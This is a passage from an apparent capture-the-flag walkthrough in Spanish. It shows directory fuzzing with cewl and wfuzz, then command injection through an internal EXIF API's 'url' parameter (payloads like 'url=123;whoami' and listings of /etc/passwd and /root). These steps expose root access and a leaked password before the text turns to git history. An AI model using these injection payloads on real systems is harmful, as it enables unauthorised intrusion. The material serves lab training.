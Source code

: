````
cewl http://IPDELAMAQUINA -w /root/Desktop/dict.txt
````

Y lo intento de nuevo:

```
wfuzz -u http://IPDELAMAQUINA/FUZZ.bak.txt -w /Desktop/dict.txt --hc 404 
```

Y por fin, éxito: `exif-util.bak.txt` existe. Y tiene un script que básicamente llama a la url http://api-dev-backup:8080/exif al que añade un parámetro ‘url’ cuando utilizamos la utilidad de exif-util.


# Inyección de comandos <a id="inyeccion"></a>

Vuelvo a http://IPDELAMAQUINA/exif-util y en el apartado de ‘From URL’ intento inyectar parámetros de tipo http://api-dev-backup:8080/exif?url=whoami … sin demasiado éxito por el momento.

Sigo probando hasta que me doy cuenta que puedo inyectar un segundo parámetro, de tipo comando de linux. 
```
http://api-dev-backup:8080/exif?url=123;whoami
```

Nos devuelve ‘root’. Bien, somos root. Pruebo más como
```
http://api-dev-backup:8080/exif?url=123;ls -la /etc/passwd
http://api-dev-backup:8080/exif?url=123;ls -la /root
```

Este último devuelve algo interesante: un archivo `dev-note.txt`:
```

Hey guys,

Apparently leaving the flag and docker access on the server is a bad idea, or so the security guys tell me. I've deleted the stuff.

Anyways, the password is fluffybunnies123

Cheers,

Hydra
```

# Git <a id="git"></a>

El archivo nos da una pista. Parece ser que antes existía una flag y un acceso a docker desde el servidor. Por tanto, es posible que podamos encontrarlo si Hydra ha utilizado git e indagamos un poco en los commits antiguos. 

Efectivamente, utiliza git. Leo primeramente el `.gitconfig` que contiene lo siguiente.
```
email = hydragyrum@example.com
name = Hydra
```
